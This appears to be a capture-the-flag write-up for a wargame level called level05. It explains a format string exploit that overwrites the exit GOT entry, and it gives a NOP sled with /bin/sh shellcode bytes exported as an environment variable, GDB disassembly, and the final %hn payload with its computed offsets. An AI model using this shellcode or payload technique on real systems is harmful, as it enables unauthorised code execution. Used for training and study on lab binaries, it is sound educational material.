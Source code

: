 `env -i su level05` is necessary to succeed

We want to overwrite the GOT table.
To do so we will do a String Format Exploit.

First we need to export our NOP sled + Shell Code :
`export SHELLCODE=$(python -c 'print("\x90" * 100 + "\x31\xc9\xf7\xe1\x04\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")')`

Then with GDB :
```C
(gdb) disas main
Dump of assembler code for function main:
   0x08048444 <+0>:	push   %ebp
    [...]
   0x08048507 <+195>:	call   0x8048340 <printf@plt>
   0x0804850c <+200>:	movl   $0x0,(%esp)
   0x08048513 <+207>:	call   0x8048370 <exit@plt>
End of assembler dump.
(gdb) disas 0x8048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0
   0x08048376 <+6>:	push   $0x18
   0x0804837b <+11>:	jmp    0x8048330
End of assembler dump.
```

### Now we have exit Global Offset Table address `0x080497e0`.
We want to write to that address the address of our shellcode.

Since our offsets are too big, we can't use the same strategy as in rainfall.  
We must first write the 2 first bytes, then the two last bytes.

To do so we will use a format string exploit.

```bash
python -c 'print("\xe0\x97\x04\x08\xe2\x97\x04\x08" + "%VALUE1x%10$hn%VALUE2x%11$hn")'
                  ^^^^^^^^^^^^^^^^
                       see 1.
                                  ^^^^^^^^^^^^^^^^
                                       see 2.
                                                       ^^^^^^^^^^^^^^^^^^^^^^^^^^^
                                                                 see 3.
```

1. `\xe0\x97\x04\x08` will be used to write with hn on the first two bytes of this address.
2. `\xe2\x97\x04\x08` is 2 bytes after the first address, which we will use to write on the two last bytes with hn.
3. After that we just need to know where our Shellcode is located in the stack in order to replace `VALUE1` and `VALUE2`.


e8b5 = 56864 - 8 --> 56856
ffff = 65535 - 56856 --> 8679 -8

python -c 'print("\xe0\x97\x04\x08\xe2\x97\x04\x08" + "%56856x%10$hn%8671x%11$hn")'

0xffffe710



